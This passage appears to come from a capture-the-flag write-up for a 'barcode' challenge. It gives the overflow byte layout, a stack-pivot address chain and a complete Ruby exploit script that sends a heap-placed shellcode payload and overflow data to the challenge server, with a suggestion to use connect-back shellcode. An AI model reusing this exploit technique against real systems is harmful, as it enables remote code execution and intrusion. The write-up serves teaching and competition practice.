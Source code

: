 
<p>
  Any shellcode that you like can be used. I suggest something small and that connects back to your box. For the purposes of the writeup, I assume your shellcode is 90 bytes.
</p>


<p>
  Lastly, the bytes that will be received in <em>socket.recv</em>. We have mentioned these earlier, all together we get:
</p>


<pre>[junk data of length 0x41C] [ebx] [new stack (heap2)] [stack pivot code]
41 (x 0x41C) 2C 7E FD B7 C8 3D 07 08 FB 94 04 08
</pre>


<h3>
  Bring it all together
</h3>


<p>
  You can use whichever language you prefer to create the exploit script. Below is a ruby script that would suffice (replace [shellcode] as appropriate).
</p>


<pre>#!/usr/bin/ruby
require 'socket'
host = "barcode.ghostintheshellcode.com"
port = 2426
t = TCPSocket.new(host,port)
t.print &lt;&lt;'EOF'
var socket = new Socket();
socket.send("\u0141\u0141\u0141\u0141\u01F0\u018E\u01E9\u01B7\u01E0\u013D\u0107\u0108\u0100\u0130\u0107\u0108\u0100\u0110\u0100\u0100\u0107\u0100\u0100\u0100[shellcode]", 0x100);
socket.recv(0x428);
EOF
t.flush
print t.recv(0x100)
t.print "A"*0x41C + "\x2C\x7E\xFD\xB7\xC8\x3D\x07\x08\xFB\x94\x04\x08"
t.flush
t.close
exit
</pre>


<p>
  Something that I noticed is that the size of the string you call <em>socket.send</em> with can affect its memory location, hence the reason I print out what the server outputs. The first time I ran the script, the address of the buffer changed:
</p>


<pre>0000080: 0000 0000 61e4 0001 0823 0708 607e 0708  ....a....#..`~..
</pre>


 [1]: http://packages.ubuntu.com/lucid/i386/xulrunner-1.9.2/download